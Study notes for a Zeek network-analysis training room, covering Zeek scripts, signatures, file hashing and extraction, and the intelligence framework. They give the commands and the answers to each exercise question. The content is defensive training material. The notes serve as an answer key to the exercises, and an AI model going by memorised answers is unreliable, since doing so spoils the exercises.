Each exercise has a folder. Ensure you are in the right directory to find the pcap file and accompanying files. Desktop/Exercise-Files/TASK-6

- `cd Desktop/Exercise-Files/TASK-6/`
- `ls -lah`

Investigate the smallFlows.pcap file. Investigate the dhcp.log file. What is the domain value of the "vinlap01" host?

- `cd smallflow/`
- `ls -lah`
- `zeek -C -r smallFlows.pcap dhcp-hostname.zeek`
- `ls -lah`
- `cat dhcp.log |zeek-cut host_name domain`
- astaro_vineyard

Investigate the bigFlows.pcap file. Investigate the dhcp.log file. What is the number of identified unique hostnames?

- `cd ../bigflow/`
- `ls -lah`
- `zeek -C -r bigFlows.pcap dhcp-hostname.zeek`
- `ll`
- `cat dhcp.log |zeek-cut host_name |sort -u |wc -l`
- 17, had to remove 1 from above number because it was a dash
- `cat dhcp.log |zeek-cut host_name |sort -u |egrep -v ^"-" |wc -l`
- the above command gives the correct answer

Investigate the dhcp.log file. What is the identified domain value?

- `cat dhcp.log |zeek-cut domain |sort -u`
- jaalam.net

Investigate the dns.log file. What is the number of unique queries?

- `cat dns.log |zeek-cut query |sort -u |grep -v -e "^-$" -e "\*" |wc -l`
- 1310, had to remove 2 becase the first 2 were a dash and asterik, use below command to see this
- `cat dns.log |zeek-cut query |sort -u |head`
- using the hint below gives the expected answer but it is not correct for real world. It filters all lines with a `-` in them.
- `cat dns.log |zeek-cut query |sort -u |grep -v -e "*" -e "-" |wc -l`
- 1109

### _**Zeek Scripts | Scripts and Signatures**_

**Scripts 101 | Write Basic Scripts**

Scripts contain operators, types, attributes, declarations and statements, and directives. Let's look at a simple example event called "zeek\_init" and "zeek\_done". These events work once the Zeek process starts and stops. Note that these events don't have parameters, and some events will require parameters.

```
# 101.zeek
event zeek_init()
    {
     print ("Started Zeek!");
    }
event zeek_done()
    {
    print ("Stopped Zeek!");
    }

# zeek_init: Do actions once Zeek starts its process.
# zeek_done: Do activities once Zeek finishes its process.
# print: Prompt a message on the terminal.
```

Run Zeek with the script

`zeek -C -r sample.pcap 101.zeek `

The above output shows how the script works and provides messages on the terminal. Zeek will create logs in the working directory separately from the scripts tasks.

Let's print the packet data to the terminal and see the raw data. In this script, we are requesting details of a connection and extracting them without any filtering or sorting of the data. To accomplish this, we are using the "new_connection" event. This event is automatically generated for each new connection. This script provides bulk information on the terminal. We need to get familiar with Zeek's data structure to reduce the amount of information and focus on the event of interest. To do so, we need to investigate the bulk data.

```
# 102.zeek
event new_connection(c: connection)
{
	print c;
}
```

```
ubuntu@ubuntu$ zeek -C -r sample.pcap 102.zeek 
[id=[orig_h=192.168.121.40, orig_p=123/udp, resp_h=212.227.54.68, resp_p=123/udp], orig=[size=48, state=1, num_pkts=0, num_bytes_ip=0, flow_label=0, l2_addr=00:16:47:df:e7:c1], resp=[size=0, state=0, num_pkts=0, num_bytes_ip=0, flow_label=0, l2_addr=00:00:0c:9f:f0:79], start_time=1488571365.706238, duration=0 secs, service={}, history=D, uid=CajwDY2vSUtLkztAc, tunnel=, vlan=121, inner_vlan=, dpd=, dpd_state=, removal_hooks=, conn=, extract_orig=F, extract_resp=F, thresholds=, dce_rpc=, dce_rpc_state=, dce_rpc_backing=, dhcp=, dnp3=, dns=, dns_state=, ftp=, ftp_data_reuse=F, ssl=, http=, http_state=, irc=, krb=, modbus=, mysql=, ntlm=, ntp=, radius=, rdp=, rfb=, sip=, sip_state=, snmp=, smb_state=, smtp=, smtp_state=, socks=, ssh=, syslog=]
```

The above terminal provides bulk data for each connection. This style is not the best usage, and in real life, we will need to filter the information for specific purposes. If you look closely at the output, you can see an ID and field value for each part.

To filter the event of interest, we will use the primary tag (in this case, it is c --comes from "c: connection"--), id value (id=), and field name. You should notice that the fields are the same as the fields in the log files.

```
# 103.zeek
event new_connection(c: connection)
{
	print ("###########################################################");
	print ("");
	print ("New Connection Found!");
	print ("");
	print fmt ("Source Host: %s # %s --->", c$id$orig_h, c$id$orig_p);
	print fmt ("Destination Host: resp: %s # %s <---", c$id$resp_h, c$id$resp_p);
	print ("");
}

# %s: Identifies string output for the source.
# c$id: Source reference field for the identifier.
```

Now you have a general idea of running a script and following the provided output on the console. Let's look closer to another script that extracts specific information from packets. The script above creates logs and prompts each source and destination address for each connection. 

Let's see this script in action.

```
ubuntu@ubuntu$ zeek -C -r sample.pcap 103.zeek 
###########################################################
New Connection Found! Source Host: 192.168.121.2 # 58304/udp ---> 
Destination Host: resp: 192.168.120.22 # 53/udp <--- 
###########################################################
```

The above output shows that we successfully extract specific information from the events. Remember that this script extracts the event of interest (in this example, a new connection), and we still have logs in the working directory. We can always modify and optimise the scripts at any time.

**Scripts 201 | Use Scripts and Signatures Together**

Up to here, we covered the basics of Zeek scripts. Now it is time to use scripts collaboratively with other scripts and signatures to get one step closer to event correlation. Zeek scripts can refer to signatures and other Zeek scripts as well. This flexibility provides a massive advantage in event correlation.

Let's demonstrate this concept with an example. We will create a script that detects if our previously created "ftp-admin" rule has a hit.

```
# 201.zeek
event signature_match (state: signature_state, msg: string, data: string)
{
if (state$sig_id == "ftp-admin")
    {
    print ("Signature hit! --> #FTP-Admin ");
    }
}
```

This basic script quickly checks if there is a signature hit and provides terminal output to notify us. We are using the "signature\_match" event to accomplish this. You can read more about events [here](https://docs.zeek.org/en/master/scripts/base/bif/event.bif.zeek.html?highlight=signature_match). Note that we are looking only for "ftp-admin" signature hits. The signature is shown below.

```
# ftp-admin.sig
signature ftp-admin {
    ip-proto == tcp
    ftp /.*USER.*admin.*/
    event "FTP Username Input Found!"
}
```

Run the script

`zeek -C -r ftp.pcap -s ftp-admin.sig 201.zeek`

```
ubuntu@ubuntu$ zeek -C -r ftp.pcap -s ftp-admin.sig 201.zeek 
Signature hit! --> #FTP-Admin Signature hit! --> #FTP-Admin
Signature hit! --> #FTP-Admin Signature hit! --> #FTP-Admin
```

The above output shows that we successfully combined the signature and script. Zeek processed the signature and logs then the script controlled the outputs and provided a terminal output for each rule hit.

**Scripts 202 | Load Local Scripts** 

Load all local scripts

We mentioned that Zeek has base scripts located in "/opt/zeek/share/zeek/base". You can load all local scripts identified in your "local.zeek" file. Note that base scripts cover multiple framework functionalities. You can load all base scripts by easily running the `local` command.

`zeek -C -r ftp.pcap local`

```
ubuntu@ubuntu$ zeek -C -r ftp.pcap local 
ubuntu@ubuntu$ ls
101.zeek  103.zeek          clear-logs.sh  ftp.pcap            packet_filter.log  stats.log
102.zeek  capture_loss.log  conn.log       loaded_scripts.log  sample.pcap        weird.log 
```

The above output demonstrates how to run all base scripts using the "local" command. Look at the above terminal output; Zeek provided additional log files this time. Loaded scripts generated loaded\_scripts.log, capture\_loss.log, notice.log, stats.log files. Note that, in our instance, 465 scripts loaded and used by using the "local" command. However, Zeek doesn't provide log files for the scripts that don't have hits or results.

**Load Specific Scripts**

Another way to load scripts is by identifying the script path. In that case, you have the opportunity of loading a specific script or framework. Let's go back to FTP brute-forcing case. We created a script that detects multiple admin login failures in previous steps. Zeek has an FTP brute-force detection script as well. Now let's use the default script and identify the differences.

```
ubuntu@ubuntu$ zeek -C -r ftp.pcap /opt/zeek/share/zeek/policy/protocols/ftp/detect-bruteforcing.zeek 

ubuntu@ubuntu$ cat notice.log | zeek-cut ts note msg 
1024380732.223481	FTP::Bruteforcing	10.234.125.254 had 20 failed logins on 1 FTP server in 0m1s
```

The above output shows how to load a specific script. This script provides much more information than the one we created. It provides one single line output and a connection summary for the suspicious incident. You can find and read more on the prebuilt scripts and frameworks by visiting Zeek's online book [here](https://docs.zeek.org/en/master/frameworks/index.html).

**Questions**

Each exercise has a folder. Ensure you are in the right directory to find the pcap file and accompanying files. Desktop/Exercise-Files/TASK-7

- `cd Desktop/Exercise-Files/TASK-7/`

Go to folder TASK-7/101.
Investigate the sample.pcap file with 103.zeek script. Investigate the terminal output. What is the number of the detected new connections?

- `ll` or `ls -lah`
- `cd 101/`
- `ll`
- `zeek -C -r sample.pcap 103.zeek`
- `zeek -C -r sample.pcap 103.zeek |grep Connection |wc -l`
- 87

Go to folder TASK-7/201.
Investigate the ftp.pcap file with ftp-admin.sig signature and  201.zeek script. Investigate the signatures.log file. What is the number of signature hits?

- `cd ../201/`
- `ll`
- `zeek -C -r ftp.pcap -s ftp-admin.sig 201.zeek`
- `ll`
- `head signatures.log`
- `zeek -C -r ftp.pcap -s ftp-admin.sig 201.zeek |wc -l`
- 1401

Investigate the signatures.log file. What is the total number of "administrator" username detections?

- `head signatures.log`
- `cat signatures.log |zeek-cut sub_msg| grep administrator |wc -l`
- 731

Investigate the ftp.pcap file with all local scripts, and investigate the loaded_scripts.log file. What is the total number of loaded scripts?

- `./clear-logs.sh`
- `ll`
- `zeek -C -r ftp.pcap local`
- `ll`
- `cat loaded_scripts.log |grep "\.zeek" |wc -l`
- 498

Go to folder TASK-7/202.
Investigate the ftp-brute.pcap file with "/opt/zeek/share/zeek/policy/protocols/ftp/detect-bruteforcing.zeek" script. Investigate the notice.log file. What is the total number of brute-force detections?

- `cd ../202/`
- `ll`
- `locate bruteforcing.zeek`
- `zeek -C -r ftp-brute.pcap /opt/zeek/share/zeek/policy/protocols/ftp/detect-bruteforcing.zeek`
- `ll`
- `less notice.log`
- `cat notice.log |zeek-cut note |wc -l`
- 2

### _**Zeek Scripts | Frameworks**_

**Scripts 203 | Load Frameworks**

Zeek has 15+ frameworks that help analysts to discover the different events of interest. In this task, we will cover the common frameworks and functions. You can find and read more on the prebuilt scripts and frameworks by visiting Zeek's online book [here](https://docs.zeek.org/en/master/frameworks/index.html).

_File Framework | Hashes_

Not all framework functionalities are intended to be used in CLI mode. The majority of them are used in scripting. You can easily see the usage of frameworks in scripts by calling a specific framework as `load @ $PATH/base/frameworks/framework-name`. Now, let's use a prebuilt function of the file framework and have MD5, SHA1 and SHA256 hashes of the detected files. We will call the "File Analysis" framework's "hash-all-files" script to accomplish this. Before loading the scripts, let's look at how it works.

```
ubuntu@ubuntu$ cat hash-demo.zeek 
# Enable MD5, SHA1 and SHA256 hashing for all files.
@load /opt/zeek/share/zeek/policy/frameworks/files/hash-all-files.zeek
```

The above output shows how frameworks are loaded. In earlier tasks, we mentioned that Zeek highly relies on scripts, and the frameworks depend on scripts. Let's have a closer look at the file hash framework and see the script behind it.

```
ubuntu@ubuntu$ cat /opt/zeek/share/zeek/policy/frameworks/files/hash-all-files.zeek 
# Enable MD5, SHA1 and SHA256 hashing for all files.

@load base/files/hash
event file_new(f: fa_file)
	{
	Files::add_analyzer(f, Files::ANALYZER_MD5);
	Files::add_analyzer(f, Files::ANALYZER_SHA1);
	Files::add_analyzer(f, Files::ANALYZER_SHA256);
	}
```

Now let's execute the script and investigate the log file.

```
ubuntu@ubuntu$ zeek -C -r case1.pcap hash-demo.zeek
ubuntu@ubuntu$ zeek -C -r case1.pcap /opt/zeek/share/zeek/policy/frameworks/files/hash-all-files.zeek 

ubuntu@ubuntu$ cat files.log | zeek-cut md5 sha1 sha256
cd5a4d3fdd5bffc16bf959ef75cf37bc	33bf88d5b82df3723d5863c7d23445e345828904	6137f8db2192e638e13610f75e73b9247c05f4706f0afd1fdb132d86de6b4012
b5243ec1df7d1d5304189e7db2744128	a66bd2557016377dfb95a87c21180e52b23d2e4e	f808229aa516ba134889f81cd699b8d246d46d796b55e13bee87435889a054fb
cc28e40b46237ab6d5282199ef78c464	0d5c820002cf93384016bd4a2628dcc5101211f4	749e161661290e8a2d190b1a66469744127bc25bf46e5d0c6f2e835f4b92db18
```

Look at the above terminal outputs. Both of the scripts provided the same result. Here the preference is up to the user. Both of the usage formats are true. Prebuilt frameworks are commonly used in scriptings with the "@load" method. Specific scripts are used as practical scripts for particular use cases.

_File Framework | Extract Files_

The file framework can extract the files transferred. Let's see this feature in action!

```
# extract files
ubuntu@ubuntu$ zeek -C -r case1.pcap /opt/zeek/share/zeek/policy/frameworks/files/extract-all-files.zeek

ubuntu@ubuntu$ ls
101.zeek  102.zeek  103.zeek  case1.pcap  clear-logs.sh  conn.log  dhcp.log  dns.log  extract_files  files.log  ftp.pcap  http.log  packet_filter.log  pe.log
```

We successfully extracted files from the pcap. A new folder called "extract\_files" is automatically created, and all detected files are located in it. First, we will list the contents of the folder, and then we will use the `file` command to determine the file type of the extracted files.

```
# investigate files
ubuntu@ubuntu$ ls extract_files | nl
     1	extract-1561667874.743959-HTTP-Fpgan59p6uvNzLFja
     2	extract-1561667889.703239-HTTP-FB5o2Hcauv7vpQ8y3
     3	extract-1561667899.060086-HTTP-FOghls3WpIjKpvXaEl

ubuntu@ubuntu$ cd extract_files

ubuntu@ubuntu$ file *| nl
     1	extract-1561667874.743959-HTTP-Fpgan59p6uvNzLFja:  ASCII text, with no line terminators
     2	extract-1561667889.703239-HTTP-FB5o2Hcauv7vpQ8y3:  Composite Document File V2 Document, Little Endian, Os: Windows, Version 6.3, Code page: 1252, Template: Normal.dotm, Last Saved By: Administrator, Revision Number: 2, Name of Creating Application: Microsoft Office Word, Create Time/Date: Thu Jun 27 18:24:00 2019, Last Saved Time/Date: Thu Jun 27 18:24:00 2019, Number of Pages: 1, Number of Words: 0, Number of Characters: 1, Security: 0
     3	extract-1561667899.060086-HTTP-FOghls3WpIjKpvXaEl: PE32 executable (GUI) Intel 80386, for MS Windows
```

Zeek extracted three files. The "file" command shows us one .txt file, one .doc/.docx file and one .exe file. Zeek renames extracted files. The name format consists of four values that come from conn.log and files.log files; default "extract" keyword, timestamp value (ts), protocol (source), and connection id (conn_uids). Let's look at the files.log to understand possible anomalies better and verify the findings. Look at the below output; files.log provides the same results with additional details. Let's focus on the .exe and correlate this finding by searching its connection id (conn_uids).

The given terminal output shows us that there are three files extracted from the traffic capture. Let's look at the file.log and correlate the findings with the rest of the log files. 

```
# investigate files
ubuntu@ubuntu$ cat files.log | zeek-cut fuid conn_uids tx_hosts rx_hosts mime_type extracted | nl
     1	Fpgan59p6uvNzLFja	CaeNgL1QzYGxxZPwpk	23.63.254.163	10.6.27.102	text/plain	extract-1561667874.743959-HTTP-Fpgan59p6uvNzLFja
     2	FB5o2Hcauv7vpQ8y3	CCwdoX1SU0fF3BGBCe	107.180.50.162	10.6.27.102	application/msword	extract-1561667889.703239-HTTP-FB5o2Hcauv7vpQ8y3
     3	FOghls3WpIjKpvXaEl	CZruIO2cqspVhLuAO9	107.180.50.162	10.6.27.102	application/x-dosexec	extract-1561667899.060086-HTTP-FOghls3WpIjKpvXaEl

ubuntu@ubuntu$ grep -rin CZruIO2cqspVhLuAO9 * | column -t | nl | less -S
#NOTE: The full output is not shown here!. Redo the same actions in the attached VM!
     1	conn.log:43:1561667898.852600   CZruIO2cqspVhLuAO9  10.6.27.102     49162        107.180.50.162      80    tcp  http        
     2	files.log:11:1561667899.060086  FOghls3WpIjKpvXaEl  107.180.50.162  10.6.27.102  CZruIO2cqspVhLuAO9  HTTP  0    EXTRACT,PE  
     3	http.log:11:1561667898.911759   CZruIO2cqspVhLuAO9  10.6.27.102     49162        107.180.50.162      80    1    GET         
```

The "grep" tool helps us investigate the particular value across all available logs. The above terminal output shows us that the connection id linked with .exe appears in conn.log, files.log, and http.log files. Given example demonstrates how to filter some fields and correlate the findings with the rest of the logs. We've listed the source and destination addresses, file and connection id numbers, MIME types, and file names. Up to now, provided outputs and findings show us that record number three is a .exe file, and other log files provide additional information.   

_Notice Framework | Intelligence_

The intelligence framework can work with data feeds to process and correlate events and identify anomalies. The intelligence framework requires a feed to match and create alerts from the network traffic. Let's demonstrate a single user-generated threat intel file and let Zeek use it as the primary intelligence source. 

Intelligence source location: `/opt/zeek/intel/zeek_intel.txt`

There are two critical points you should never forget. First, the source file has to be tab-delimited. Second, you can manually update the source and adding extra lines doesn't require any re-deployment. However, if you delete a line from the file, you will need to re-deploy the Zeek instance. 

Let's add the suspicious URL gathered from the case1.pcap file as a source intel and see this feature in action! Before executing the script, let's look at the intelligence file and the script contents.

```
# investigate intel file and script
ubuntu@ubuntu$ cat /opt/zeek/intel/zeek_intel.txt 
#fields	indicator	indicator_type	meta.source	meta.desc
smart-fax.com	Intel::DOMAIN	zeek-intel-test	Zeek-Intelligence-Framework-Test

ubuntu@ubuntu$ cat intelligence-demo.zeek 
# Load intelligence framework!
@load policy/frameworks/intel/seen
@load policy/frameworks/intel/do_notice
redef Intel::read_files += { "/opt/zeek/intel/zeek_intel.txt" }; 
```

The above output shows the contents of the intel file and script contents. There is one intelligence input, and it is focused on a domain name, so when this domain name appears in the network traffic, Zeek will create the "intel.log" file and provide the available details.

```
# investigate intel file and script
ubuntu@ubuntu$ zeek -C -r case1.pcap intelligence-demo.zeek 

ubuntu@ubuntu$ cat intel.log | zeek-cut uid id.orig_h id.resp_h seen.indicator matched
CZ1jLe2nHENdGQX377	10.6.27.102	10.6.27.1	smart-fax.com	Intel::DOMAIN	
C044Ot1OxBt8qCk7f2	10.6.27.102	107.180.50.162	smart-fax.com	Intel::DOMAIN 
```

The above output shows that Zeek detected the listed domain and created the intel.log file. This is one of the easiest ways of using the intelligence framework. You can read more on the intelligence framework [here](https://docs.zeek.org/en/master/frameworks/intel.html) and [here](https://docs.zeek.org/en/current/scripts/base/frameworks/intel/main.zeek.html#type-Intel::Type).

**Questions**

Each exercise has a folder. Ensure you are in the right directory to find the pcap file and accompanying files. Desktop/Exercise-Files/TASK-8

- `cd Desktop/Exercise-Files/TASK-8/`
- `ll` or `ls -lah`

Investigate the case1.pcap file with intelligence-demo.zeek script. Investigate the intel.log file. Look at the second finding, where was the intel info found? 

- `zeek -C -r case1.pcap intelligence-demo.zeek`
- `ll`
- `head intel.log`
- `cat intel.log |zeek-cut seen.where |nl`
- IN_HOST_HEADER

Investigate the http.log file. What is the name of the downloaded .exe file?

- `head http.log`
- `cat http.log |zeek-cut uri |sort -u |nl`
- knr.exe

Investigate the case1.pcap file with hash-demo.zeek script. Investigate the files.log file. What is the MD5 hash of the downloaded .exe file?

- `ll`
- `./clear-logs.sh`
- `ll`
- `zeek -C -r case1.pcap hash-demo.zeek`
- `ll`
- `head files.log`
- `cat files.log |zeek-cut mime_type md5| nl`
- cc28e40b46237ab6d5282199ef78c464

Investigate the case1.pcap file with file-extract-demo.zeek script. Investigate the "extract_files" folder. Review the contents of the text file. What is written in the file?

- `./clear-logs.sh`
- `ll`
- `zeek -C -r case1.pcap file-extract-demo.zeek`
- `ll`
- `ll extract_files/`
- `cat files.log |zeek-cut fuid mime_type md5| nl`
- `ll extract_files/ |grep Fpgan59p6uvNzLFja`
- `cat ./extract_files/extract-1561667874.743959-HTTP-Fpgan59p6uvNzLFja`
- Microsoft NCSI


### _**Zeek Scripts | Packages**_

test